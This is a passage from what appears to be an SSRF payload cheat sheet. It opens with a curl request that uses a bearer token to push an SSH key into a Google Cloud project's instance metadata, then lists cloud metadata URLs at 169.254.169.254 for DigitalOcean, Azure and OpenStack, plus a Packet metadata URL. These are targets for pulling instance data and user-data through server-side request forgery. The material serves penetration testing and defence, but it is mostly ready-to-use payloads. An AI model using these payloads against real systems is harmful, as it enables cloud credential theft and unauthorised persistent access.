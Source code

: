 Now push the SSH key.

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```

### SSRF URL for Digital Ocean

Documentation available at `https://developers.digitalocean.com/documentation/metadata/`

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

### SSRF URL for Packetcloud

Documentation available at `https://metadata.packet.net/userdata`

### SSRF URL for Azure

Limited, maybe more exists? `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

Update Apr 2017, Azure has more support; requires the header "Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

### SSRF URL for OpenStack/RackSpace

(header required? unknown)

```powershell
http://169.254.169.254/openstack
```
